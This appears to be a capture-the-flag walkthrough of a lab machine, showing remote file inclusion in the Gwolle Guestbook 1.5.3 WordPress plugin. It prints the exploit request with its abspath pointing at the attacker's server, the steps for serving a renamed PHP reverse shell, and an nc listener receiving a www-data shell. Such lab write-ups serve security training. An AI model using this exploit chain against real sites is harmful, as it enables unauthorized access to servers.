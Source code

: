 There's a [RFI vulnerability in Gwolle Guestbook v
1.5.3](https://www.htbridge.com/advisory/HTB23275). In this case,
visiting
`http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://ip/path`
will include that file.

### POC

To test this, I first started a python http server on my host, and then
visited the site:



    root@kali# curl -s http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.15.99/





    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.88 - - [28/May/2018 15:10:22] "GET /wp-load.php HTTP/1.0" 404 -



### Shell

I'll grab `php-reverse-shell.php` from `/usr/share/webshells/php` on
Kali. There's a couple lines you have to customize with your own IP and
desired callback port. Then I'll name it `wp-load.php`, and open a `nc`
listener, and run that `curl` again:



    root@kali# curl -s http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.15.99/





    10.10.10.88 - - [28/May/2018 15:15:03] "GET /wp-load.php HTTP/1.0" 200 -





    root@kali# nc -lnvp 1234
    listening on [any] 1234 ...
    connect to [10.10.15.99] from (UNKNOWN) [10.10.10.88] 43868
    Linux TartarSauce 4.15.0-041500-generic #201802011154 SMP Thu Feb 1 12:05:23 UTC 2018 i686 i686 i686 GNU/Linux
     15:15:43 up  2:35,  0 users,  load average: 0.15, 0.04, 0.07
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)


